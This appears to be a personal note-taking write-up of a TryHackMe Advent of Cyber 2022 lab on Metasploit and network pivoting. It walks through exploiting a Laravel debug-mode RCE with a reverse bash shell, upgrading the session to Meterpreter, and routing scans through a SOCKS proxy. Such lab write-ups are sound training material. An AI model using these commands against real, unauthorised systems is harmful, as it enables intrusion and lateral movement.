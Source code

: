 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This determines where to send network traffic through.
```Metasploit Commands
# Example usage
route [add/remove] subnet netmask [comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
route add 172.28.10.48/29 -1

# Output the routing table
route print
```

## Socks Proxy
Intermediate server that supports relaying networking traffic between two machines. Allows the implementation of pivoting technique. You can run Socks Proxy locally or in the compromised system. This can be achieved using `auxiliary/server/socks_proxy` module.

```Metasploit Commands
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

Tools such as `curl` supports sending requests through a socks proxy server via `--proxy` flag.
```sh
curl --proxy socks4a://localhost:9050 http://10.10.40.65
```

ProxyChain can intercept the tool's request to open a new network connection and route the request through a socks proxy instead.
```sh
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.40.65
```

# Challenge
## Enumeration
```sh
└─# nmap -p- 10.10.40.65 -Pn -n -v
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:C2:4A:6E:C9:01 (Unknown)
```

## Web
![[Pasted image 20221210103547.png]]

Now we can see that the server is running Laravel (Common Web Application development framework).
The application may be vulnerable to a remote code execution exploit. We can use Metasploit to verify it.

## Metasploit

```Metasploit Commands
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=10.10.40.65 HttpClientTimeout=20

[*] Checking component version to 10.10.40.65:80
[*] 10.10.40.65:80 - The target appears to be vulnerable.
```

[//]: Set `HttpClientTimeout=20` or check may fail. If the connection is really slow/unstable, you may need a higher value.

Now that we know that the target is vulnerable, let's pwn it.
```Metasploit Commands
run rhost=10.10.40.65 lhost=OUR_IP HttpClientTimeout=20
```

To upgrade the session to Meterpreter, use the `sessions -u -1` command.
```Metasploit
background

Background session 1? [y/N]  y
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions -u -1
```
![[Pasted image 20221210104759.png]]

[//]:  To connect to a session again, use `sessions -i 2`
